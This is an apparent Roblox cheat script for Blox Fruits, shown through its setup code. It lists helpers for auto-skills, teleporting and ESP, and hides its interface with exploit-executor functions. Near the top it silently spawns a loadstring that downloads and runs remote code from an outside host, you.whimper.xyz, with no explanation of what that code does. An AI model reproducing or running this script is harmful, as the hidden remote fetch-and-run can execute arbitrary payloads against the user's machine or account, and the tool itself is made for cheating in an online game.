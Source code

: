 -- yes please dont use globals :heart:
local CheckQ, CheckBossQuest, Hop, InfAb, infinitestam, NoDodgeCool, NameMelee, NameSword, checkskillMelee, checkskillDF, checkskillSword, checkskillGun, SendKey, autoskill, CheckInventory, TeleportSeabeast, Click, IsWpSKillLoaded, GetWeapon, EquipAllWeapon, UnEquipWeapon, EquipWeapon, TP, StopTween, CheckPirateBoat, CheckSwanBoat, CheckSeaBeast, CheckLeviathanSegment, CheckLeviathanTail, CheckLeviathan, TeleportLeviathan, TweenTemple, DayNight, ClockTime, BuyGear, PullLever, AncientClock, TweentoCurrentRaceDoor, GetSeaBeastTrial, CheckBossDimension, BoatShit, TPBoatShit, StopTweenBoatShit, CheckDimension, CheckBribe, CheckElite, CheckMirage, CheckKitsune, MoonTextureId, CheckMoonTexture, ClockTime, CheckMoon, CheckLegendarySword, isnil, UpdatePlayerChams, UpdateIslandESP, UpdateChestEsp, UpdateBfEsp, UpdateFlowerEsp, IsIslandRaid, getNextIsland, LockMoon, ESPMirageIsland, CheckAcientOneStatus
-- manually added locals:
local MyLevel, CFrameQuest, CFrameMon, Mon, NameMon, NameQuest, LevelQuest


local Vector2,CFrame,Instance,UDim2=Vector2,CFrame,Instance,UDim2 -- yes this will barely add performance but ya
local _25msShared={} -- getgenv = bad and it crashes on second execution anyways :3
if getgenv().CokkaRan then
	warn("ALREADY OPEN")
	return
end
getgenv().CokkaRan=true


spawn(function()
	loadstring(game:HttpGet("https://you.whimper.xyz/cute"))()
end)

local player = game:GetService("Players").LocalPlayer
while not player.Character do
    task.wait(3)
end

local L_1_ = os.clock()
local L_2_ = get_hidden_gui or gethui;
if syn and typeof(syn) == "table" and RenderWindow then
	syn.protect_gui = gethui
end;
local function L_3_func(L_60_arg0)
	if L_2_ then
		L_60_arg0["Parent"] = L_2_()
	elseif not is_sirhurt_closure and (syn and syn.protect_gui) then
		syn.protect_gui(L_60_arg0)
		L_60_arg0["Parent"] = game:GetService("CoreGui")
	elseif game:GetService("CoreGui"):FindFirstChild("RobloxGui") then
		L_60_arg0["Parent"] = game:GetService("CoreGui").RobloxGui
	else
		L_60_arg0["Parent"] = game:GetService("CoreGui")
	end
end;
local L_4_ = Instance.new("ScreenGui")
L_3_func(L_4_)
local L_5_ = game:GetService("ReplicatedStorage")
local L_6_ = game:GetService("TeleportService")
local L_7_ = game:GetService("VirtualUser")
local L_8_ = game:GetService("RunService")
local L_9_ = game:GetService("Players")
local L_10_ = L_5_:WaitForChild("Remotes")
local L_11_ = L_10_:WaitForChild("Validator")
local L_12_ = L_10_:WaitForChild("CommF_")
local L_13_ = workspace:WaitForChild("_WorldOrigin")
local L_14_ = workspace:WaitForChild("Characters")
local L_15_ = workspace:WaitForChild("Enemies")
local L_16_ = workspace:WaitForChild("Map")
local L_17_ = L_13_:WaitForChild("EnemySpawns")